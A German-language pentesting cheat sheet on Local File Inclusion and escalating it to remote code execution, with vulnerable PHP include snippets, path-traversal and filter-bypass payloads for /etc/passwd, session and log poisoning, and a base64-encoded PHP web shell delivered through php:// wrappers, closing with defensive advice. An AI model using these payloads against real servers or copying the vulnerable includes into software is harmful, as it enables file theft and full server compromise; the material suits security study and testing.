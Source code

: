 # LFI - Local File Inclusion

**Local File Inclusion (LFI)** ist eine Schwachstelle in Webanwendungen, bei der ein Angreifer durch manipulierte Eingaben lokale Dateien auf dem Server lesen kann. LFI tritt häufig in PHP-Anwendungen auf, wenn Funktionen wie `include`, `require`, `include_once` oder `require_once` unsicher verwendet werden. Sie ist jedoch auch in anderen Umgebungen wie ASP, JSP oder Node.js möglich.

LFI basiert in der Regel auf **Pfadmanipulation (Path Traversal)**, um systeminterne Dateien aufzurufen, z. B. `/etc/passwd`.

***

### 1. Einfache Einbindung über GET-Parameter

```php
<?php
    include($_GET['lang']);
?>
```

Ein Aufruf wie `?lang=EN.php` lädt die Datei `EN.php`. Ohne Validierung ist es möglich, beliebige lesbare Dateien zu referenzieren, z. B.:

```
http://webapp/index.php?lang=/etc/passwd
```

***

### 2. Verzeichnisspezifische Einbindung

```php
<?php
    include("languages/" . $_GET['lang']);
?>
```

Durch gezielte **Pfadmanipulation** lässt sich der Ordner verlassen:

```
http://webapp/index.php?lang=../../../../etc/passwd
```

***

### 3. Fehlermeldungen als Informationsquelle

Bei Blackbox-Tests können Fehlerausgaben wertvolle Informationen liefern, z. B.:

```
include(languages/xav.php): failed to open stream
```

Dies offenbart Pfadstrukturen und Dateinamensmuster (z. B. `.php` wird automatisch angehängt). Zum Umgehen dieses Anhangs kann ein **Null-Byte-Injection**-Trick versucht werden:

```
http://webapp/index.php?lang=../../../../etc/passwd%00
```

{% hint style="warning" %}
Hinweis: Seit PHP 5.3.4 ist `%00`-Injection nicht mehr wirksam.
{% endhint %}

***

### 4. Umgehung von Filtermechanismen

Filter, die z. B. `/etc/passwd` blockieren, können durch Tricks wie die **Verwendung von `/./` oder `/../` am Ende** umgangen werden:

* `/etc/passwd/.`
* `/etc/passwd/..`

Diese Tricks nutzen das Verhalten des Dateisystems aus, um Filter zu umgehen, ohne den tatsächlichen Pfad zu verändern.

***

### 5. Bypassing von Path-Sanitization

Bei Filtermechanismen, die z. B. `../` ersetzen, kann der folgende Bypass funktionieren:

```
....//....//....//etc/passwd
```

Dies umgeht einfache Ersetzungen, da sie meist nur `../` erkennen und nicht rekursiv prüfen.

***

Hier ist eine strukturierte, zusammengefasste und professionell formulierte Version des Themas **LFI2RCE – Remote Code Execution über LFI**, inklusive Session Files, Log Poisoning und PHP Wrapper:

***

## LFI2RCE – Remote Code Execution über Local File Inclusion

**LFI (Local File Inclusion)** kann weit über das bloße Auslesen von Dateien hinausgehen. Unter bestimmten Bedingungen lässt sich durch LFI sogar Remote Code Execution (RCE) erreichen. Dies geschieht durch das gezielte Einfügen und spätere Ausführen von PHP-Code in serverseitige Dateien, die von der Anwendung eingebunden werden. Zu den gängigen Methoden gehören Session File Injection, Log Poisoning sowie der Missbrauch von PHP-Wrappers.

***

### 1. **Session File Injection**

PHP speichert Sitzungsdaten standardmäßig in Dateien, z. B. unter `/var/lib/php/sessions/`. Enthält eine LFI-schwache Anwendung eine solche Session-Datei, und gelingt es dem Angreifer, zuvor schädlichen PHP-Code in seine Session zu injizieren, kann dieser ausgeführt werden.

**Vorgehensweise:**

*   Ein Angreifer sendet über den `page`-Parameter bösartigen PHP-Code:

    ```php
    <?php echo phpinfo(); ?>
    ```
* Dieser Code wird in der Session-Datei des Benutzers gespeichert.
*   Anschließend wird über eine LFI-Schwachstelle genau diese Datei eingebunden:

    ```
    /sessions.php?page=/var/lib/php/sessions/sess_[PHPSESSID]
    ```

> Hinweis: Die Session-ID ist im Browser-Cookie (`PHPSESSID`) zu finden.

***

### 2. **Log Poisoning**

**Log Poisoning** beschreibt das Einschleusen von PHP-Code in Server-Logdateien (z. B. Access Logs), gefolgt von deren Einbindung über LFI.

**Vorgehensweise:**

1.  **Code-Injektion:** Der Angreifer sendet z. B. per Netcat folgende Anfrage an den Server:

    ```bash
    $ nc 10.10.235.227 80
    <?php echo phpinfo(); ?>
    ```

    → Dieser Code wird im Apache-Log gespeichert (meist `/var/log/apache2/access.log`).
2.  **Einbindung via LFI:**

    ```php
    /vulnerable.php?page=/var/log/apache2/access.log
    ```

    → Der Server führt den Code beim Einbinden der Logdatei aus.

***

### 3. **Wrapper-basierte Codeausführung**

Neben Dateiauslese können PHP-Wrapper auch zur **Codeausführung** genutzt werden. Ein häufig verwendeter Wrapper ist:

**`php://filter` + `data://` für base64-dekodierte Payloads**

**Beispielcode:**

```php
<?php system($_GET['cmd']); echo 'Shell done!'; ?>
```

**Base64-kodiert:**`PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4+`

**Kombinierter Payload:**

```
php://filter/convert.base64-decode/resource=data://text/plain,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4+
```

**Ablauf:**

* Der Wrapper `php://filter` dekodiert die eingebetteten Daten zur Laufzeit.
* Der dekodierte Inhalt enthält PHP-Code, der dann vom Server ausgeführt wird.
*   Der Parameter `cmd` kann anschließend genutzt werden, um Befehle auszuführen, z. B.:

    ```
    ?cmd=whoami
    ```

> Achtung: Der Parameter `cmd` darf nicht im base64-kodierten Teil enthalten sein. Wird er mit enkodiert, erzeugt das eine fehlerhafte Byte-Sequenz.

***

{% hint style="info" %}
**LFI2RCE** ist ein gefährlicher Angriffsvektor, der bei unsicheren Anwendungen mit LFI-Schwachstellen zum vollständigen Serverkompromiss führen kann. Besonders kritisch sind:

* Einbindung von modifizierbaren Dateien (Sessions, Logs)
* PHP-Wrapper mit dynamischer Verarbeitung
* Fehlende oder mangelhafte Eingabevalidierung
{% endhint %}

{% hint style="info" %}
**Abwehrmaßnahmen:**

* Keine direkte Nutzung von Benutzereingaben in `include()` / `require()`
* Deaktivieren unnötiger PHP-Wrapper (`allow_url_include`, `allow_url_fopen`)
* Sicherstellung, dass sensible Dateien nicht über Webanwendungen einbindbar sind
* Logging-Verzeichnisse unzugänglich machen
* Session-Dateien nicht im einbindbaren Pfad speichern
{% endhint %}
